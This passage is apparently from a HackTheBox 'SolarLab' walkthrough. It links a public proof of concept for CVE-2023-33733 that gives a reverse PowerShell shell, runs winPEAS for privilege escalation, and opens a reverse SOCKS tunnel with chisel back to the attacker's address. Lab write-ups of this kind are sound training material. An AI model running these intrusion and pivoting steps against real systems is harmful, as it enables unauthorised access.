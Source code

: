 Found another version of the exploit that works and gets us a reverse powershell shell.
https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC
![[Screenshots/SolarLab_image_20.png]]

![[Screenshots/SolarLab_image_21.png]]
![[Screenshots/Pasted image 20240831165228.png]]





## Exploits
https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC

--- 
# PrivEsc

Downloaded winipeas to the box to check for any easy escalations.


![[Screenshots/SolarLab_image_22.png]]

```bash
PS C:\Users\blake\Desktop> type ../Documents/start-app.bat
@ECHO OFF

cd "c:\users\blake\documents\app"

:loopstart
START /B waitress-serve.exe --listen 127.0.0.1:5000 --threads 10 app:app
timeout /t 600 /nobreak > NUL
taskkill /f /im python3.11.exe 
timeout /t 5 /nobreak > NUL
goto loopstart

```

`start-app.bat`, has a service listening on localhost:5000. Looking into it it's just the instance of reportlab. Winpeas didn't pick it up for some reason but running netstat shows a listening port on 9090. 

![[Screenshots/SolarLab_image_23.png]]


Setting up a reverse socks proxy with chisel so we can view the app on port 9090 from our browser.

```bash
┌──(fish㉿kali)-[~/htb/solarlab/www]
└─$ ./chisel_arm server --reverse --port 443
...
PS C:\Users\blake\Desktop> ./chisel.exe client 10.10.14.7:443 R:socks
```

![[Screenshots/SolarLab_image_24.png]]
